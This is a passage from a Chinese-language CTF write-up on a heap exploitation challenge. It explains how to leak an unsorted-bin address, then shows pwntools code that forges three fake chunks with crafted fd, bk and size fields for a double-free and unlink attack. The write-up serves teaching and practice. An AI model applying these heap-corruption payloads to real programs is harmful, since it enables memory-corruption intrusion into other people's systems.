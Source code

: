 ```
leak = p.recvuntil("\n")
```

首先我们先new出4个堆块（防止合并）并释放掉两个，然后 再重新malloc一个大小相同的堆块，这样，新malloc的堆块的原bk位置，就指向目前还在unsorted bin中的bin。当我们打印新堆块的内容时，就能得到一个 bin的地址。

- 接下来我们要利用到double free和unlink机制。

首先 先malloc 3个堆块 是为了在初始化时 malloc的那个大堆块里 填充信息。然后再free掉。接下来我们再malloc一个新的堆块，在新的堆块中 伪造三个堆块。如下图所示：

![](./pic/5.png)

```
payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

new_note(payload)
```
首先看第一个fake chunk1 ，大小为0x80 fd=0x25be018 bk=0x25be020。

fake chunk2，大小为0x90 但是 PREV_INUSE位 为0 表示fake chunk1 处于被free掉的状态。

fake chunk3，大小为0x90，PREV_INUSE位 为1。

